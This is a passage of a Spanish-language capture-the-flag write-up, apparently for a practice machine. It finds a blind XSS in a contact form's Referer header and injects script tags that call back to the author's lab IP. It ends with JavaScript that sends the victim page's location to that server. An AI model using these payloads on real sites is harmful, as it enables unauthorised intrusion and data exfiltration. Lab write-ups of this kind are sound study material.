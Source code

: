 ```yml
      - DATA_DIR=/var/localstack/data
      - PORT_WEB_UI=${PORT_WEB_UI- }
      - LAMBDA_EXECUTOR=${LAMBDA_EXECUTOR- }
      - LOCALSTACK_API_KEY=${LOCALSTACK_API_KEY- }
      - KINESIS_ERROR_PROBABILITY=${KINESIS_ERROR_PROBABILITY- }
      - DOCKER_HOST=unix:///var/run/docker.sock
      - HOST_TMP_FOLDER="/tmp/localstack"
    volumes:
      - "/tmp/localstack:/tmp/localstack"
      - "/var/run/docker.sock:/var/run/docker.sock"
```

Al parecer estaba montado en local AWS, esto me llamo la atencion por lo que lo deje en segundo plano. 

### XSS

En la seccion Contact encontre un formulario.

![0](https://user-images.githubusercontent.com/69093629/162543455-4c6edddd-e327-4759-a6ce-92c0c9b12815.png)

Este podria ser vulnerable a XSS, intente inyectar `<script>alert("XSS")</script>`pero este lo detectaba.

![0](https://user-images.githubusercontent.com/69093629/162543579-8ff0f5cc-1ec7-4109-8f77-f7e2f524d799.png)

En este punto decidi interceptar la peticion con Burp para hacer `debugging` en las cabeceras de la peticion.

![0](https://user-images.githubusercontent.com/69093629/162543854-eafd3002-bf61-4fe9-902b-cffbf56da691.png)

Abri un servidor con Python por el puerto 80 y probe a inyectar `<script src="http://10.10.16.59/"></script>` en la cabecera *Referer*.

![0](https://user-images.githubusercontent.com/69093629/162544074-7662d07d-a39b-4eb3-92d7-27fc34889e63.png)

Y tras un pequeño intervalo de tiempo recibi una peticion GET a mi servidor desde la maquina victima.

<img title="" src="https://user-images.githubusercontent.com/69093629/162544209-25b5969e-960e-47f5-8099-b79d0452d602.png" alt="0" data-align="inline">

La cabecera *Referer* era vulnerable a XSS.

### Estrategia

Mi idea era identificar si el servidor tenia interaccion con algun usuario, por lo que me cree un pequeño script en JS con el siguiente contenido:

```js
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://10.10.16.59:9999/" + document.location, false);
oReq.send();
```
